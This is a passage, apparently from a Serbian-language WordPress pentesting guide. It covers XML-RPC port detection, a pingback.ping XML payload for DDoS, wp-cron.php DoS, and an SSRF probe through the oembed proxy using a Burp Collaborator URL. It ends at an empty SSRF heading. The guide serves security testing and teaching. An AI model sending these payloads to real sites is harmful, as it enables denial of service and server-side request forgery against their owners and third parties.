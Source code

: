 ![](../../.gitbook/assets/1\_JaUYIZF8ZjDGGB7ocsZC-g.png)

Ako dobijete **faultCode** sa vrednošću **većom** od **0** (17), to znači da je port otvoren.

Pogledajte upotrebu **`system.multicall`** u prethodnom odeljku da biste saznali kako zloupotrebiti ovu metodu kako biste izazvali DDoS.

**DDoS**

```markup
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param><value><string>http://target/</string></value></param>
<param><value><string>http://yoursite.com/and_some_valid_blog_post_url</string></value></param>
</params>
</methodCall>
```

![](<../../.gitbook/assets/image (103).png>)

### wp-cron.php DoS

Ovaj fajl obično postoji pod korenom Wordpress sajta: **`/wp-cron.php`**\
Kada se ovaj fajl **pristupi**, izvršava se "**teški**" MySQL **upit**, pa ga napadači mogu koristiti da izazovu **DoS**.\
Takođe, podrazumevano, `wp-cron.php` se poziva pri svakom učitavanju stranice (svaki put kada klijent zatraži bilo koju Wordpress stranicu), što na sajtovima sa velikim saobraćajem može izazvati probleme (DoS).

Preporučuje se onemogućavanje Wp-Cron-a i kreiranje pravog cronjob-a unutar hosta koji obavlja potrebne akcije u redovnom intervalu (bez izazivanja problema).

### /wp-json/oembed/1.0/proxy - SSRF

Pokušajte da pristupite _https://worpress-site.com/wp-json/oembed/1.0/proxy?url=ybdk28vjsa9yirr7og2lukt10s6ju8.burpcollaborator.net_ i Wordpress sajt može poslati zahtev ka vama.

Ovo je odgovor kada ne radi:

![](<../../.gitbook/assets/image (184) (1).png>)

### SSRF
